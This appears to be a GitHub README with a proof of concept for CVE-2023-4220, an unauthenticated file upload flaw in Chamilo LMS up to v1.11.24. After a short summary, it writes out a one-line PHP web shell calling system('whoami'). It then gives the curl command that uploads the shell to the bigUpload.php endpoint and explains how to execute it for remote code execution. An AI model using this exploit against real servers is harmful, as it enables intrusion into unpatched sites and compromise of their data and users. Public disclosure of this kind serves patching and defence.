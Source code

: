 # Chamilo-LMS-Unauthenticated-File-Upload-
Unrestricted file upload in big file upload functionality in `/main/inc/lib/javascript/bigupload/inc/bigUpload.php` in Chamilo LMS &lt;= v1.11.24 allows unauthenticated attackers to perform stored cross-site scripting attacks and obtain remote code execution via uploading of web shell.

### Affected Version ≤v1.11.24

### **CVE Identifier** CVE-2023-4220

## **Vulnerability Summary**

The big file upload functionality by `/main/inc/lib/javascript/bigupload/inc/bigUpload.php` allows arbitrary files to be uploaded to `/main/inc/lib/javascript/bigupload/files` directory within the web root.

### **Proof-of-Concept**

- If `/main/inc/lib/javascript/bigupload/files` directory exist we can upload Arbitrary file as;
- Create a malicious php file `echo '<?php system("whoami"); ?>' > dollarboysushil.php`
	![[images/Untitled (1).png]]


- We can then upload this file by issuing following command
    
    ```
    `$ curl -F 'bigUploadFile=@dollarboysushil.php' 'http://<website>/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'` 
    ```
    ![[images/Untitled (2).png]]

- We can check our file is uploaded by visiting the `/main/inc/lib/javascript/bigupload/files` directory
    ![[images/Untitled (3).png]]
		

- And we can execute it by clicking the php file, which gives the output of `whoami` command
		![[images/Untitled (4).png]]